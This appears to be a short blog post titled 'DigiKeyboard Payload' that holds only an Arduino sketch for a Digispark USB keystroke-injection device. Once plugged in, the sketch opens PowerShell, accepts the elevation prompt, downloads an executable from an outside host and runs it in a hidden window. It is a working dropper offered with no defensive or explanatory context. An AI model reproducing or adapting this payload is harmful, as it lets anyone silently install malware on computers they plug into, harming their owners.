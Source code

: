 ```yaml
---
layout: post
author: cvxz
title:  "DigiKeyboard Payload"
date:   2020-02-11 11:27:06 -0300
categories: arduino
---
```


{% highlight c++ %}
#define LAYOUT_SPANISH_LATIN_AMERICA
#include "DigiKeyboard.h"

int LED_PIN = 1;
int KEY_DELAY = 2500;

void setup() {
  pinMode(LED_PIN, OUTPUT);
  
}

void loop() {
  digitalWrite(LED_PIN, HIGH);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(KEY_DELAY);
  DigiKeyboard.print("powershell");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(KEY_DELAY);
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
  DigiKeyboard.delay(KEY_DELAY);
  DigiKeyboard.print("$errorActionPreference='Stop'; ");
  DigiKeyboard.print("(New-Object Net.Webclient).DownloadFile('https://90.cl/extra/m.exe','m.exe'); ");
  DigiKeyboard.print("Start-Process -FilePath 'm.exe' -WindowStyle hidden; exit;");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(KEY_DELAY);
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
  DigiKeyboard.delay(KEY_DELAY);
  digitalWrite(LED_PIN, LOW);

  for(;;){ }
}
{% endhighlight %}